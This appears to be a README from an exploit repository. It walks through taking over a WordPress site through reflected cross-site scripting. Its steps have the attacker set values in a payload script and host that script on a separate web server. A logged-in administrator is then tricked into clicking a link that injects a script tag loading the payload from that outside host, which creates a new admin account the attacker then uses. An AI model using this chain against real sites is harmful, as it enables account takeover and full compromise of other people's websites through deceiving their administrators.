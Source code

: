 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccWP.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: minimum password length is 9 characters)

    `newAccEmail` - email of the user account to be created

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.15/createAdminAccWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.15` - web server hosting payload

5. [post exploit] attacker logs into target WordPress site using specified credentials

    http://192.168.5.10/wp-login.php

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

![Image](screenshots/WordPress_-_create_new_admin_-_1-1.png)
